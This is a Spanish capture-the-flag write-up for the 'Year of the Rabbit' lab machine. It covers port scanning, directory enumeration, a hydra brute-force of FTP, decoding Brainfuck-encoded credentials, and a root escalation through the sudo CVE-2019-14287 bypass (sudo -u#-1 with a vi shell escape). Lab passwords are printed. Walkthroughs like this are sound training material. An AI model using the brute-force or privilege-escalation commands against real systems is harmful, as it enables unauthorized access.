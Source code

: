 # Year of the Rabbit
Es bastante CTF pero a pesar de lo CTF que es, la máquina es interesante

Interesantes: CVE-2019-14287
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```
## Enum
### HTTP
#### Gobuster
```
/assets (Status: 301) <- Aqui dentro hay un rickrrolled.mp4 :v y un css
```
#### El CSS es una trampa
```
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */
```
#### sup3r_s3cr3t_fl4g
Si tenemos el js habilitado nos redirige a el video de Rick Roll, veamos que ocurre examinando la peticion en burpsuite
```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
Host: 10.10.211.47
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
Veamos que ese directorio hay una foto, la descargamos y miramos si se ha aplicado algún tipo de esteganografía a la misma, vemos que se ha añadido algo al final
```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
```
Seguido de esto hay una serie de strings que parece ser una wordlist.

## Exploit
```
hydra -l ftpuser -P pass.txt ftp://10.10.211.47
```
Y obtenemos la siguiente
```
[21][ftp] host: 10.10.211.47   login: ftpuser   password: 5iez1wGXKfPKQ
```
Una vez dentro tenemos el siguiente archivo:

```
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
```
### Eli
Las creds para elli resultan se un string en Brainfuck
```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```
Lo decodificamos y tenemos lo siguiente
```
User: eli

Password: DSpDiM1wAEwid
```
Cuando nos logeuamos tenemos el siguiente mensaje
```
Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there
```
Una busqueda con el comando find como la siguiente nos revelara un lugar escondido
```
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
```
Dentro hay un mensaje para gwendoline
```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
Con esto podemos logearnos como gwendoline

## Privesc
```
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
Este privesc es sencillo ya que la version de sudo esta afectada por el CVE-2019-14287
```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
> :!/bin/bash
```
Y ya tenemos shell como root
